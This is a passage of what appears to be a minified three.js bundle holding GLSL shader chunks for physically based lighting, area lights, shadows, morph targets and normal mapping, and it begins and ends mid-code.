= dot( material.anisotropyB, viewDir );\n\t\tfloat dotBH = dot( material.anisotropyB, halfDir );\n\t\tfloat V = V_GGX_SmithCorrelated_Anisotropic( material.alphaT, alpha, dotTV, dotBV, dotTL, dotBL, dotNV, dotNL );\n\t\tfloat D = D_GGX_Anisotropic( material.alphaT, alpha, dotNH, dotTH, dotBH );\n\t#else\n\t\tfloat V = V_GGX_SmithCorrelated( alpha, dotNL, dotNV );\n\t\tfloat D = D_GGX( alpha, dotNH );\n\t#endif\n\treturn F * ( V * D );\n}\nvec2 LTC_Uv( const in vec3 N, const in vec3 V, const in float roughness ) {\n\tconst float LUT_SIZE = 64.0;\n\tconst float LUT_SCALE = ( LUT_SIZE - 1.0 ) / LUT_SIZE;\n\tconst float LUT_BIAS = 0.5 / LUT_SIZE;\n\tfloat dotNV = saturate( dot( N, V ) );\n\tvec2 uv = vec2( roughness, sqrt( 1.0 - dotNV ) );\n\tuv = uv * LUT_SCALE + LUT_BIAS;\n\treturn uv;\n}\nfloat LTC_ClippedSphereFormFactor( const in vec3 f ) {\n\tfloat l = length( f );\n\treturn max( ( l * l + f.z ) / ( l + 1.0 ), 0.0 );\n}\nvec3 LTC_EdgeVectorFormFactor( const in vec3 v1, const in vec3 v2 ) {\n\tfloat x = dot( v1, v2 );\n\tfloat y = abs( x );\n\tfloat a = 0.8543985 + ( 0.4965155 + 0.0145206 * y ) * y;\n\tfloat b = 3.4175940 + ( 4.1616724 + y ) * y;\n\tfloat v = a / b;\n\tfloat theta_sintheta = ( x > 0.0 ) ? v : 0.5 * inversesqrt( max( 1.0 - x * x, 1e-7 ) ) - v;\n\treturn cross( v1, v2 ) * theta_sintheta;\n}\nvec3 LTC_Evaluate( const in vec3 N, const in vec3 V, const in vec3 P, const in mat3 mInv, const in vec3 rectCoords[ 4 ] ) {\n\tvec3 v1 = rectCoords[ 1 ] - rectCoords[ 0 ];\n\tvec3 v2 = rectCoords[ 3 ] - rectCoords[ 0 ];\n\tvec3 lightNormal = cross( v1, v2 );\n\tif( dot( lightNormal, P - rectCoords[ 0 ] ) < 0.0 ) return vec3( 0.0 );\n\tvec3 T1, T2;\n\tT1 = normalize( V - N * dot( V, N ) );\n\tT2 = - cross( N, T1 );\n\tmat3 mat = mInv * transposeMat3( mat3( T1, T2, N ) );\n\tvec3 coords[ 4 ];\n\tcoords[ 0 ] = mat * ( rectCoords[ 0 ] - P );\n\tcoords[ 1 ] = mat * ( rectCoords[ 1 ] - P );\n\tcoords[ 2 ] = mat * ( rectCoords[ 2 ] - P );\n\tcoords[ 3 ] = mat * ( rectCoords[ 3 ] - P );\n\tcoords[ 0 ] = normalize( coords[ 0 ] );\n\tcoords[ 1 ] = normalize( coords[ 1 ] );\n\tcoords[ 2 ] = normalize( coords[ 2 ] );\n\tcoords[ 3 ] = normalize( coords[ 3 ] );\n\tvec3 vectorFormFactor = vec3( 0.0 );\n\tvectorFormFactor += LTC_EdgeVectorFormFactor( coords[ 0 ], coords[ 1 ] );\n\tvectorFormFactor += LTC_EdgeVectorFormFactor( coords[ 1 ], coords[ 2 ] );\n\tvectorFormFactor += LTC_EdgeVectorFormFactor( coords[ 2 ], coords[ 3 ] );\n\tvectorFormFactor += LTC_EdgeVectorFormFactor( coords[ 3 ], coords[ 0 ] );\n\tfloat result = LTC_ClippedSphereFormFactor( vectorFormFactor );\n\treturn vec3( result );\n}\n#if defined( USE_SHEEN )\nfloat D_Charlie( float roughness, float dotNH ) {\n\tfloat alpha = pow2( roughness );\n\tfloat invAlpha = 1.0 / alpha;\n\tfloat cos2h = dotNH * dotNH;\n\tfloat sin2h = max( 1.0 - cos2h, 0.0078125 );\n\treturn ( 2.0 + invAlpha ) * pow( sin2h, invAlpha * 0.5 ) / ( 2.0 * PI );\n}\nfloat V_Neubelt( float dotNV, float dotNL ) {\n\treturn saturate( 1.0 / ( 4.0 * ( dotNL + dotNV - dotNL * dotNV ) ) );\n}\nvec3 BRDF_Sheen( const in vec3 lightDir, const in vec3 viewDir, const in vec3 normal, vec3 sheenColor, const in float sheenRoughness ) {\n\tvec3 halfDir = normalize( lightDir + viewDir );\n\tfloat dotNL = saturate( dot( normal, lightDir ) );\n\tfloat dotNV = saturate( dot( normal, viewDir ) );\n\tfloat dotNH = saturate( dot( normal, halfDir ) );\n\tfloat D = D_Charlie( sheenRoughness, dotNH );\n\tfloat V = V_Neubelt( dotNV, dotNL );\n\treturn sheenColor * ( D * V );\n}\n#endif\nfloat IBLSheenBRDF( const in vec3 normal, const in vec3 viewDir, const in float roughness ) {\n\tfloat dotNV = saturate( dot( normal, viewDir ) );\n\tfloat r2 = roughness * roughness;\n\tfloat a = roughness < 0.25 ? -339.2 * r2 + 161.4 * roughness - 25.9 : -8.48 * r2 + 14.3 * roughness - 9.95;\n\tfloat b = roughness < 0.25 ? 44.0 * r2 - 23.7 * roughness + 3.26 : 1.97 * r2 - 3.27 * roughness + 0.72;\n\tfloat DG = exp( a * dotNV + b ) + ( roughness < 0.25 ? 0.0 : 0.1 * ( roughness - 0.25 ) );\n\treturn saturate( DG * RECIPROCAL_PI );\n}\nvec2 DFGApprox( const in vec3 normal, const in vec3 viewDir, const in float roughness ) {\n\tfloat dotNV = saturate( dot( normal, viewDir ) );\n\tconst vec4 c0 = vec4( - 1, - 0.0275, - 0.572, 0.022 );\n\tconst vec4 c1 = vec4( 1, 0.0425, 1.04, - 0.04 );\n\tvec4 r = roughness * c0 + c1;\n\tfloat a004 = min( r.x * r.x, exp2( - 9.28 * dotNV ) ) * r.x + r.y;\n\tvec2 fab = vec2( - 1.04, 1.04 ) * a004 + r.zw;\n\treturn fab;\n}\nvec3 EnvironmentBRDF( const in vec3 normal, const in vec3 viewDir, const in vec3 specularColor, const in float specularF90, const in float roughness ) {\n\tvec2 fab = DFGApprox( normal, viewDir, roughness );\n\treturn specularColor * fab.x + specularF90 * fab.y;\n}\n#ifdef USE_IRIDESCENCE\nvoid computeMultiscatteringIridescence( const in vec3 normal, const in vec3 viewDir, const in vec3 specularColor, const in float specularF90, const in float iridescence, const in vec3 iridescenceF0, const in float roughness, inout vec3 singleScatter, inout vec3 multiScatter ) {\n#else\nvoid computeMultiscattering( const in vec3 normal, const in vec3 viewDir, const in vec3 specularColor, const in float specularF90, const in float roughness, inout vec3 singleScatter, inout vec3 multiScatter ) {\n#endif\n\tvec2 fab = DFGApprox( normal, viewDir, roughness );\n\t#ifdef USE_IRIDESCENCE\n\t\tvec3 Fr = mix( specularColor, iridescenceF0, iridescence );\n\t#else\n\t\tvec3 Fr = specularColor;\n\t#endif\n\tvec3 FssEss = Fr * fab.x + specularF90 * fab.y;\n\tfloat Ess = fab.x + fab.y;\n\tfloat Ems = 1.0 - Ess;\n\tvec3 Favg = Fr + ( 1.0 - Fr ) * 0.047619;\tvec3 Fms = FssEss * Favg / ( 1.0 - Ems * Favg );\n\tsingleScatter += FssEss;\n\tmultiScatter += Fms * Ems;\n}\n#if NUM_RECT_AREA_LIGHTS > 0\n\tvoid RE_Direct_RectArea_Physical( const in RectAreaLight rectAreaLight, const in vec3 geometryPosition, const in vec3 geometryNormal, const in vec3 geometryViewDir, const in vec3 geometryClearcoatNormal, const in PhysicalMaterial material, inout ReflectedLight reflectedLight ) {\n\t\tvec3 normal = geometryNormal;\n\t\tvec3 viewDir = geometryViewDir;\n\t\tvec3 position = geometryPosition;\n\t\tvec3 lightPos = rectAreaLight.position;\n\t\tvec3 halfWidth = rectAreaLight.halfWidth;\n\t\tvec3 halfHeight = rectAreaLight.halfHeight;\n\t\tvec3 lightColor = rectAreaLight.color;\n\t\tfloat roughness = material.roughness;\n\t\tvec3 rectCoords[ 4 ];\n\t\trectCoords[ 0 ] = lightPos + halfWidth - halfHeight;\t\trectCoords[ 1 ] = lightPos - halfWidth - halfHeight;\n\t\trectCoords[ 2 ] = lightPos - halfWidth + halfHeight;\n\t\trectCoords[ 3 ] = lightPos + halfWidth + halfHeight;\n\t\tvec2 uv = LTC_Uv( normal, viewDir, roughness );\n\t\tvec4 t1 = texture2D( ltc_1, uv );\n\t\tvec4 t2 = texture2D( ltc_2, uv );\n\t\tmat3 mInv = mat3(\n\t\t\tvec3( t1.x, 0, t1.y ),\n\t\t\tvec3(    0, 1,    0 ),\n\t\t\tvec3( t1.z, 0, t1.w )\n\t\t);\n\t\tvec3 fresnel = ( material.specularColor * t2.x + ( vec3( 1.0 ) - material.specularColor ) * t2.y );\n\t\treflectedLight.directSpecular += lightColor * fresnel * LTC_Evaluate( normal, viewDir, position, mInv, rectCoords );\n\t\treflectedLight.directDiffuse += lightColor * material.diffuseColor * LTC_Evaluate( normal, viewDir, position, mat3( 1.0 ), rectCoords );\n\t}\n#endif\nvoid RE_Direct_Physical( const in IncidentLight directLight, const in vec3 geometryPosition, const in vec3 geometryNormal, const in vec3 geometryViewDir, const in vec3 geometryClearcoatNormal, const in PhysicalMaterial material, inout ReflectedLight reflectedLight ) {\n\tfloat dotNL = saturate( dot( geometryNormal, directLight.direction ) );\n\tvec3 irradiance = dotNL * directLight.color;\n\t#ifdef USE_CLEARCOAT\n\t\tfloat dotNLcc = saturate( dot( geometryClearcoatNormal, directLight.direction ) );\n\t\tvec3 ccIrradiance = dotNLcc * directLight.color;\n\t\tclearcoatSpecularDirect += ccIrradiance * BRDF_GGX_Clearcoat( directLight.direction, geometryViewDir, geometryClearcoatNormal, material );\n\t#endif\n\t#ifdef USE_SHEEN\n\t\tsheenSpecularDirect += irradiance * BRDF_Sheen( directLight.direction, geometryViewDir, geometryNormal, material.sheenColor, material.sheenRoughness );\n\t#endif\n\treflectedLight.directSpecular += irradiance * BRDF_GGX( directLight.direction, geometryViewDir, geometryNormal, material );\n\treflectedLight.directDiffuse += irradiance * BRDF_Lambert( material.diffuseColor );\n}\nvoid RE_IndirectDiffuse_Physical( const in vec3 irradiance, const in vec3 geometryPosition, const in vec3 geometryNormal, const in vec3 geometryViewDir, const in vec3 geometryClearcoatNormal, const in PhysicalMaterial material, inout ReflectedLight reflectedLight ) {\n\treflectedLight.indirectDiffuse += irradiance * BRDF_Lambert( material.diffuseColor );\n}\nvoid RE_IndirectSpecular_Physical( const in vec3 radiance, const in vec3 irradiance, const in vec3 clearcoatRadiance, const in vec3 geometryPosition, const in vec3 geometryNormal, const in vec3 geometryViewDir, const in vec3 geometryClearcoatNormal, const in PhysicalMaterial material, inout ReflectedLight reflectedLight) {\n\t#ifdef USE_CLEARCOAT\n\t\tclearcoatSpecularIndirect += clearcoatRadiance * EnvironmentBRDF( geometryClearcoatNormal, geometryViewDir, material.clearcoatF0, material.clearcoatF90, material.clearcoatRoughness );\n\t#endif\n\t#ifdef USE_SHEEN\n\t\tsheenSpecularIndirect += irradiance * material.sheenColor * IBLSheenBRDF( geometryNormal, geometryViewDir, material.sheenRoughness );\n\t#endif\n\tvec3 singleScattering = vec3( 0.0 );\n\tvec3 multiScattering = vec3( 0.0 );\n\tvec3 cosineWeightedIrradiance = irradiance * RECIPROCAL_PI;\n\t#ifdef USE_IRIDESCENCE\n\t\tcomputeMultiscatteringIridescence( geometryNormal, geometryViewDir, material.specularColor, material.specularF90, material.iridescence, material.iridescenceFresnel, material.roughness, singleScattering, multiScattering );\n\t#else\n\t\tcomputeMultiscattering( geometryNormal, geometryViewDir, material.specularColor, material.specularF90, material.roughness, singleScattering, multiScattering );\n\t#endif\n\tvec3 totalScattering = singleScattering + multiScattering;\n\tvec3 diffuse = material.diffuseColor * ( 1.0 - max( max( totalScattering.r, totalScattering.g ), totalScattering.b ) );\n\treflectedLight.indirectSpecular += radiance * singleScattering;\n\treflectedLight.indirectSpecular += multiScattering * cosineWeightedIrradiance;\n\treflectedLight.indirectDiffuse += diffuse * cosineWeightedIrradiance;\n}\n#define RE_Direct\t\t\t\tRE_Direct_Physical\n#define RE_Direct_RectArea\t\tRE_Direct_RectArea_Physical\n#define RE_IndirectDiffuse\t\tRE_IndirectDiffuse_Physical\n#define RE_IndirectSpecular\t\tRE_IndirectSpecular_Physical\nfloat computeSpecularOcclusion( const in float dotNV, const in float ambientOcclusion, const in float roughness ) {\n\treturn saturate( pow( dotNV + ambientOcclusion, exp2( - 16.0 * roughness - 1.0 ) ) - 1.0 + ambientOcclusion );\n}",lights_fragment_begin:"\nvec3 geometryPosition = - vViewPosition;\nvec3 geometryNormal = normal;\nvec3 geometryViewDir = ( isOrthographic ) ? vec3( 0, 0, 1 ) : normalize( vViewPosition );\nvec3 geometryClearcoatNormal = vec3( 0.0 );\n#ifdef USE_CLEARCOAT\n\tgeometryClearcoatNormal = clearcoatNormal;\n#endif\n#ifdef USE_IRIDESCENCE\n\tfloat dotNVi = saturate( dot( normal, geometryViewDir ) );\n\tif ( material.iridescenceThickness == 0.0 ) {\n\t\tmaterial.iridescence = 0.0;\n\t} else {\n\t\tmaterial.iridescence = saturate( material.iridescence );\n\t}\n\tif ( material.iridescence > 0.0 ) {\n\t\tmaterial.iridescenceFresnel = evalIridescence( 1.0, material.iridescenceIOR, dotNVi, material.iridescenceThickness, material.specularColor );\n\t\tmaterial.iridescenceF0 = Schlick_to_F0( material.iridescenceFresnel, 1.0, dotNVi );\n\t}\n#endif\nIncidentLight directLight;\n#if ( NUM_POINT_LIGHTS > 0 ) && defined( RE_Direct )\n\tPointLight pointLight;\n\t#if defined( USE_SHADOWMAP ) && NUM_POINT_LIGHT_SHADOWS > 0\n\tPointLightShadow pointLightShadow;\n\t#endif\n\t#pragma unroll_loop_start\n\tfor ( int i = 0; i < NUM_POINT_LIGHTS; i ++ ) {\n\t\tpointLight = pointLights[ i ];\n\t\tgetPointLightInfo( pointLight, geometryPosition, directLight );\n\t\t#if defined( USE_SHADOWMAP ) && ( UNROLLED_LOOP_INDEX < NUM_POINT_LIGHT_SHADOWS )\n\t\tpointLightShadow = pointLightShadows[ i ];\n\t\tdirectLight.color *= ( directLight.visible && receiveShadow ) ? getPointShadow( pointShadowMap[ i ], pointLightShadow.shadowMapSize, pointLightShadow.shadowIntensity, pointLightShadow.shadowBias, pointLightShadow.shadowRadius, vPointShadowCoord[ i ], pointLightShadow.shadowCameraNear, pointLightShadow.shadowCameraFar ) : 1.0;\n\t\t#endif\n\t\tRE_Direct( directLight, geometryPosition, geometryNormal, geometryViewDir, geometryClearcoatNormal, material, reflectedLight );\n\t}\n\t#pragma unroll_loop_end\n#endif\n#if ( NUM_SPOT_LIGHTS > 0 ) && defined( RE_Direct )\n\tSpotLight spotLight;\n\tvec4 spotColor;\n\tvec3 spotLightCoord;\n\tbool inSpotLightMap;\n\t#if defined( USE_SHADOWMAP ) && NUM_SPOT_LIGHT_SHADOWS > 0\n\tSpotLightShadow spotLightShadow;\n\t#endif\n\t#pragma unroll_loop_start\n\tfor ( int i = 0; i < NUM_SPOT_LIGHTS; i ++ ) {\n\t\tspotLight = spotLights[ i ];\n\t\tgetSpotLightInfo( spotLight, geometryPosition, directLight );\n\t\t#if ( UNROLLED_LOOP_INDEX < NUM_SPOT_LIGHT_SHADOWS_WITH_MAPS )\n\t\t#define SPOT_LIGHT_MAP_INDEX UNROLLED_LOOP_INDEX\n\t\t#elif ( UNROLLED_LOOP_INDEX < NUM_SPOT_LIGHT_SHADOWS )\n\t\t#define SPOT_LIGHT_MAP_INDEX NUM_SPOT_LIGHT_MAPS\n\t\t#else\n\t\t#define SPOT_LIGHT_MAP_INDEX ( UNROLLED_LOOP_INDEX - NUM_SPOT_LIGHT_SHADOWS + NUM_SPOT_LIGHT_SHADOWS_WITH_MAPS )\n\t\t#endif\n\t\t#if ( SPOT_LIGHT_MAP_INDEX < NUM_SPOT_LIGHT_MAPS )\n\t\t\tspotLightCoord = vSpotLightCoord[ i ].xyz / vSpotLightCoord[ i ].w;\n\t\t\tinSpotLightMap = all( lessThan( abs( spotLightCoord * 2. - 1. ), vec3( 1.0 ) ) );\n\t\t\tspotColor = texture2D( spotLightMap[ SPOT_LIGHT_MAP_INDEX ], spotLightCoord.xy );\n\t\t\tdirectLight.color = inSpotLightMap ? directLight.color * spotColor.rgb : directLight.color;\n\t\t#endif\n\t\t#undef SPOT_LIGHT_MAP_INDEX\n\t\t#if defined( USE_SHADOWMAP ) && ( UNROLLED_LOOP_INDEX < NUM_SPOT_LIGHT_SHADOWS )\n\t\tspotLightShadow = spotLightShadows[ i ];\n\t\tdirectLight.color *= ( directLight.visible && receiveShadow ) ? getShadow( spotShadowMap[ i ], spotLightShadow.shadowMapSize, spotLightShadow.shadowIntensity, spotLightShadow.shadowBias, spotLightShadow.shadowRadius, vSpotLightCoord[ i ] ) : 1.0;\n\t\t#endif\n\t\tRE_Direct( directLight, geometryPosition, geometryNormal, geometryViewDir, geometryClearcoatNormal, material, reflectedLight );\n\t}\n\t#pragma unroll_loop_end\n#endif\n#if ( NUM_DIR_LIGHTS > 0 ) && defined( RE_Direct )\n\tDirectionalLight directionalLight;\n\t#if defined( USE_SHADOWMAP ) && NUM_DIR_LIGHT_SHADOWS > 0\n\tDirectionalLightShadow directionalLightShadow;\n\t#endif\n\t#pragma unroll_loop_start\n\tfor ( int i = 0; i < NUM_DIR_LIGHTS; i ++ ) {\n\t\tdirectionalLight = directionalLights[ i ];\n\t\tgetDirectionalLightInfo( directionalLight, directLight );\n\t\t#if defined( USE_SHADOWMAP ) && ( UNROLLED_LOOP_INDEX < NUM_DIR_LIGHT_SHADOWS )\n\t\tdirectionalLightShadow = directionalLightShadows[ i ];\n\t\tdirectLight.color *= ( directLight.visible && receiveShadow ) ? getShadow( directionalShadowMap[ i ], directionalLightShadow.shadowMapSize, directionalLightShadow.shadowIntensity, directionalLightShadow.shadowBias, directionalLightShadow.shadowRadius, vDirectionalShadowCoord[ i ] ) : 1.0;\n\t\t#endif\n\t\tRE_Direct( directLight, geometryPosition, geometryNormal, geometryViewDir, geometryClearcoatNormal, material, reflectedLight );\n\t}\n\t#pragma unroll_loop_end\n#endif\n#if ( NUM_RECT_AREA_LIGHTS > 0 ) && defined( RE_Direct_RectArea )\n\tRectAreaLight rectAreaLight;\n\t#pragma unroll_loop_start\n\tfor ( int i = 0; i < NUM_RECT_AREA_LIGHTS; i ++ ) {\n\t\trectAreaLight = rectAreaLights[ i ];\n\t\tRE_Direct_RectArea( rectAreaLight, geometryPosition, geometryNormal, geometryViewDir, geometryClearcoatNormal, material, reflectedLight );\n\t}\n\t#pragma unroll_loop_end\n#endif\n#if defined( RE_IndirectDiffuse )\n\tvec3 iblIrradiance = vec3( 0.0 );\n\tvec3 irradiance = getAmbientLightIrradiance( ambientLightColor );\n\t#if defined( USE_LIGHT_PROBES )\n\t\tirradiance += getLightProbeIrradiance( lightProbe, geometryNormal );\n\t#endif\n\t#if ( NUM_HEMI_LIGHTS > 0 )\n\t\t#pragma unroll_loop_start\n\t\tfor ( int i = 0; i < NUM_HEMI_LIGHTS; i ++ ) {\n\t\t\tirradiance += getHemisphereLightIrradiance( hemisphereLights[ i ], geometryNormal );\n\t\t}\n\t\t#pragma unroll_loop_end\n\t#endif\n#endif\n#if defined( RE_IndirectSpecular )\n\tvec3 radiance = vec3( 0.0 );\n\tvec3 clearcoatRadiance = vec3( 0.0 );\n#endif",lights_fragment_maps:"#if defined( RE_IndirectDiffuse )\n\t#ifdef USE_LIGHTMAP\n\t\tvec4 lightMapTexel = texture2D( lightMap, vLightMapUv );\n\t\tvec3 lightMapIrradiance = lightMapTexel.rgb * lightMapIntensity;\n\t\tirradiance += lightMapIrradiance;\n\t#endif\n\t#if defined( USE_ENVMAP ) && defined( STANDARD ) && defined( ENVMAP_TYPE_CUBE_UV )\n\t\tiblIrradiance += getIBLIrradiance( geometryNormal );\n\t#endif\n#endif\n#if defined( USE_ENVMAP ) && defined( RE_IndirectSpecular )\n\t#ifdef USE_ANISOTROPY\n\t\tradiance += getIBLAnisotropyRadiance( geometryViewDir, geometryNormal, material.roughness, material.anisotropyB, material.anisotropy );\n\t#else\n\t\tradiance += getIBLRadiance( geometryViewDir, geometryNormal, material.roughness );\n\t#endif\n\t#ifdef USE_CLEARCOAT\n\t\tclearcoatRadiance += getIBLRadiance( geometryViewDir, geometryClearcoatNormal, material.clearcoatRoughness );\n\t#endif\n#endif",lights_fragment_end:"#if defined( RE_IndirectDiffuse )\n\tRE_IndirectDiffuse( irradiance, geometryPosition, geometryNormal, geometryViewDir, geometryClearcoatNormal, material, reflectedLight );\n#endif\n#if defined( RE_IndirectSpecular )\n\tRE_IndirectSpecular( radiance, iblIrradiance, clearcoatRadiance, geometryPosition, geometryNormal, geometryViewDir, geometryClearcoatNormal, material, reflectedLight );\n#endif",logdepthbuf_fragment:"#if defined( USE_LOGDEPTHBUF )\n\tgl_FragDepth = vIsPerspective == 0.0 ? gl_FragCoord.z : log2( vFragDepth ) * logDepthBufFC * 0.5;\n#endif",logdepthbuf_pars_fragment:"#if defined( USE_LOGDEPTHBUF )\n\tuniform float logDepthBufFC;\n\tvarying float vFragDepth;\n\tvarying float vIsPerspective;\n#endif",logdepthbuf_pars_vertex:"#ifdef USE_LOGDEPTHBUF\n\tvarying float vFragDepth;\n\tvarying float vIsPerspective;\n#endif",logdepthbuf_vertex:"#ifdef USE_LOGDEPTHBUF\n\tvFragDepth = 1.0 + gl_Position.w;\n\tvIsPerspective = float( isPerspectiveMatrix( projectionMatrix ) );\n#endif",map_fragment:"#ifdef USE_MAP\n\tvec4 sampledDiffuseColor = texture2D( map, vMapUv );\n\t#ifdef DECODE_VIDEO_TEXTURE\n\t\tsampledDiffuseColor = vec4( mix( pow( sampledDiffuseColor.rgb * 0.9478672986 + vec3( 0.0521327014 ), vec3( 2.4 ) ), sampledDiffuseColor.rgb * 0.0773993808, vec3( lessThanEqual( sampledDiffuseColor.rgb, vec3( 0.04045 ) ) ) ), sampledDiffuseColor.w );\n\t\n\t#endif\n\tdiffuseColor *= sampledDiffuseColor;\n#endif",map_pars_fragment:"#ifdef USE_MAP\n\tuniform sampler2D map;\n#endif",map_particle_fragment:"#if defined( USE_MAP ) || defined( USE_ALPHAMAP )\n\t#if defined( USE_POINTS_UV )\n\t\tvec2 uv = vUv;\n\t#else\n\t\tvec2 uv = ( uvTransform * vec3( gl_PointCoord.x, 1.0 - gl_PointCoord.y, 1 ) ).xy;\n\t#endif\n#endif\n#ifdef USE_MAP\n\tdiffuseColor *= texture2D( map, uv );\n#endif\n#ifdef USE_ALPHAMAP\n\tdiffuseColor.a *= texture2D( alphaMap, uv ).g;\n#endif",map_particle_pars_fragment:"#if defined( USE_POINTS_UV )\n\tvarying vec2 vUv;\n#else\n\t#if defined( USE_MAP ) || defined( USE_ALPHAMAP )\n\t\tuniform mat3 uvTransform;\n\t#endif\n#endif\n#ifdef USE_MAP\n\tuniform sampler2D map;\n#endif\n#ifdef USE_ALPHAMAP\n\tuniform sampler2D alphaMap;\n#endif",metalnessmap_fragment:"float metalnessFactor = metalness;\n#ifdef USE_METALNESSMAP\n\tvec4 texelMetalness = texture2D( metalnessMap, vMetalnessMapUv );\n\tmetalnessFactor *= texelMetalness.b;\n#endif",metalnessmap_pars_fragment:"#ifdef USE_METALNESSMAP\n\tuniform sampler2D metalnessMap;\n#endif",morphinstance_vertex:"#ifdef USE_INSTANCING_MORPH\n\tfloat morphTargetInfluences[ MORPHTARGETS_COUNT ];\n\tfloat morphTargetBaseInfluence = texelFetch( morphTexture, ivec2( 0, gl_InstanceID ), 0 ).r;\n\tfor ( int i = 0; i < MORPHTARGETS_COUNT; i ++ ) {\n\t\tmorphTargetInfluences[i] =  texelFetch( morphTexture, ivec2( i + 1, gl_InstanceID ), 0 ).r;\n\t}\n#endif",morphcolor_vertex:"#if defined( USE_MORPHCOLORS )\n\tvColor *= morphTargetBaseInfluence;\n\tfor ( int i = 0; i < MORPHTARGETS_COUNT; i ++ ) {\n\t\t#if defined( USE_COLOR_ALPHA )\n\t\t\tif ( morphTargetInfluences[ i ] != 0.0 ) vColor += getMorph( gl_VertexID, i, 2 ) * morphTargetInfluences[ i ];\n\t\t#elif defined( USE_COLOR )\n\t\t\tif ( morphTargetInfluences[ i ] != 0.0 ) vColor += getMorph( gl_VertexID, i, 2 ).rgb * morphTargetInfluences[ i ];\n\t\t#endif\n\t}\n#endif",morphnormal_vertex:"#ifdef USE_MORPHNORMALS\n\tobjectNormal *= morphTargetBaseInfluence;\n\tfor ( int i = 0; i < MORPHTARGETS_COUNT; i ++ ) {\n\t\tif ( morphTargetInfluences[ i ] != 0.0 ) objectNormal += getMorph( gl_VertexID, i, 1 ).xyz * morphTargetInfluences[ i ];\n\t}\n#endif",morphtarget_pars_vertex:"#ifdef USE_MORPHTARGETS\n\t#ifndef USE_INSTANCING_MORPH\n\t\tuniform float morphTargetBaseInfluence;\n\t\tuniform float morphTargetInfluences[ MORPHTARGETS_COUNT ];\n\t#endif\n\tuniform sampler2DArray morphTargetsTexture;\n\tuniform ivec2 morphTargetsTextureSize;\n\tvec4 getMorph( const in int vertexIndex, const in int morphTargetIndex, const in int offset ) {\n\t\tint texelIndex = vertexIndex * MORPHTARGETS_TEXTURE_STRIDE + offset;\n\t\tint y = texelIndex / morphTargetsTextureSize.x;\n\t\tint x = texelIndex - y * morphTargetsTextureSize.x;\n\t\tivec3 morphUV = ivec3( x, y, morphTargetIndex );\n\t\treturn texelFetch( morphTargetsTexture, morphUV, 0 );\n\t}\n#endif",morphtarget_vertex:"#ifdef USE_MORPHTARGETS\n\ttransformed *= morphTargetBaseInfluence;\n\tfor ( int i = 0; i < MORPHTARGETS_COUNT; i ++ ) {\n\t\tif ( morphTargetInfluences[ i ] != 0.0 ) transformed += getMorph( gl_VertexID, i, 0 ).xyz * morphTargetInfluences[ i ];\n\t}\n#endif",normal_fragment_begin:"float faceDirection = gl_FrontFacing ? 1.0 : - 1.0;\n#ifdef FLAT_SHADED\n\tvec3 fdx = dFdx( vViewPosition );\n\tvec3 fdy = dFdy( vViewPosition );\n\tvec3 normal = normalize( cross( fdx, fdy ) );\n#else\n\tvec3 normal = normalize( vNormal );\n\t#ifdef DOUBLE_SIDED\n\t\tnormal *= faceDirection;\n\t#endif\n#endif\n#if defined( USE_NORMALMAP_TANGENTSPACE ) || defined( USE_CLEARCOAT_NORMALMAP ) || defined( USE_ANISOTROPY )\n\t#ifdef USE_TANGENT\n\t\tmat3 tbn = mat3( normalize( vTangent ), normalize( vBitangent ), normal );\n\t#else\n\t\tmat3 tbn = getTangentFrame( - vViewPosition, normal,\n\t\t#if defined( USE_NORMALMAP )\n\t\t\tvNormalMapUv\n\t\t#elif defined( USE_CLEARCOAT_NORMALMAP )\n\t\t\tvClearcoatNormalMapUv\n\t\t#else\n\t\t\tvUv\n\t\t#endif\n\t\t);\n\t#endif\n\t#if defined( DOUBLE_SIDED ) && ! defined( FLAT_SHADED )\n\t\ttbn[0] *= faceDirection;\n\t\ttbn[1] *= faceDirection;\n\t#endif\n#endif\n#ifdef USE_CLEARCOAT_NORMALMAP\n\t#ifdef USE_TANGENT\n\t\tmat3 tbn2 = mat3( normalize( vTangent ), normalize( vBitangent ), normal );\n\t#else\n\t\tmat3 tbn2 = getTangentFrame( - vViewPosition, normal, vClearcoatNormalMapUv );\n\t#endif\n\t#if defined( DOUBLE_SIDED ) && ! defined( FLAT_SHADED )\n\t\ttbn2[0] *= faceDirection;\n\t\ttbn2[1] *= faceDirection;\n\t#endif\n#endif\nvec3 nonPerturbedNormal = normal;",normal_fragment_maps:"#ifdef USE_NORMALMAP_OBJECTSPACE\n\tnormal = texture2D( normalMap, vNormalMapUv ).xyz * 2.0 - 1.0;\n\t#ifdef FLIP_SIDED\n\t\tnormal = - normal;\n\t#endif\n\t#ifdef DOUBLE_SIDED\n\t\tnormal = normal * faceDirection;\n\t#endif\n\tnormal = normalize( normalMatrix * normal );\n#elif defined( USE_NORMALMAP_TANGENTSPACE )\n\tvec3 mapN = texture2D( normalMap, vNormalMapUv ).xyz * 2.0 - 1.0;\n\tmapN.xy *= normalScale;\n\tnormal = normalize( tbn * mapN );\n#elif defined( USE_BUMPMAP )\n\tnormal = perturbNormalArb( - vViewPosition, normal, dHdxy_fwd(), faceDirection );\n#endif",normal_pars_fragment:"#ifndef FLAT_SHADED\n\tvarying vec3 vNormal;\n\t#ifdef USE_TANGENT\n\t\tvarying vec3 vTangent;\n\t\tvarying vec3 vBitangent;\n\t#endif\n#endif",normal_pars_vertex:"#ifndef FLAT_SHADED\n\tvarying vec3 vNormal;\n\t#ifdef USE_TANGENT\n\t\tvarying vec3 vTangent;\n\t\tvarying vec3 vBitangent;\n\t#endif\n#endif",normal_vertex:"#ifndef FLAT_SHADED\n\tvNormal = normalize( transformedNormal );\n\t#ifdef USE_TANGENT\n\t\tvTangent = normalize( transformedTangent );\n\t\tvBitangent = normalize( cross( vNormal, vTangent ) * tangent.w );\n\t#endif\n#endif",normalmap_pars_fragment:"#ifdef USE_NORMALMAP\n\tuniform sampler2D normalMap;\n\tuniform vec2 normalScale;\n#endif\n#ifdef USE_NORMALMAP_OBJECTSPACE\n\tuniform mat3 normalMatrix;\n#endif\n#if ! defined ( USE_TANGENT ) && ( defined ( USE_NORMALMAP_TANGENTSPACE ) || defined ( USE_CLEARCOAT_NORMALMAP ) || defined( USE_ANISOTROPY ) )\n\tmat3 getTangentFrame( vec3 eye_pos, vec3 surf_norm, vec2 uv ) {\n\t\tvec3 q0 = dFdx( eye_pos.xyz );\n\t\tvec3 q1 = dFdy( eye_pos.xyz );\n\t\tvec2 st0 = dFdx( uv.st );\n\t\tvec2 st1 = dFdy( uv.st );\n\t\tvec3 N = surf_norm;\n\t\tvec3 q1perp = cross( q1, N );\n\t\tvec3 q0perp = cross( N, q0 );\n\t\tvec3 T = q1perp * st0.x + q0perp * st1.x;\n\t\tvec3 B = q1perp * st0.y + q0perp * 